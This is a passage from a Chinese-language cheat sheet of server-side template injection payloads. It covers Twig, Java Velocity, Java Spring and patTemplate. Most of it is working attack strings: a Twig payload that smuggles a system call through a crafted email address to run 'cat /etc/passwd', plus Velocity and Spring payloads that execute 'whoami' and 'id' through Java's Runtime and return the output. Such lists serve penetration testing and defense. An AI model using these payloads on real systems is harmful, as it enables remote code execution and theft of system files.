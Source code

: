 示例：注入值以避免使用引号指定文件名（通过 OFFSET 和 LENGTH 指定有效负载 FILENAME）

```python
FILENAME{% set var = dump(_context)[OFFSET:LENGTH] %} {{ include(var) }}
```

带有电子邮件的示例，传递 PHP 的 FILTER_VALIDATE_EMAIL。

```powershell
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

---

## Java - Velocity

[官方网站](https://velocity.apache.org/engine/1.7/user-guide.html)

> Velocity 是一个基于Java的模板引擎。它允许网页设计师引用Java代码中定义的方法。

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---

## Java - Spring

```python
*{7*7}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

---

## patTemplate

> [patTemplate](https://github.com/wernerwa/pat-template) 是一个不使用编译的PHP模板引擎，它使用XML标签将文档分割成不同的部分

```xml
<patTemplate:tmpl name="page">
  这是主页面。
  <patTemplate:tmpl name="foo">
    它包含另一个模板。
  </patTemplate:tmpl>
  <patTemplate:tmpl name="hello">
    你好 {NAME}。<br/>
  </patTemplate:tmpl>
</patTemplate:tmpl>
```

---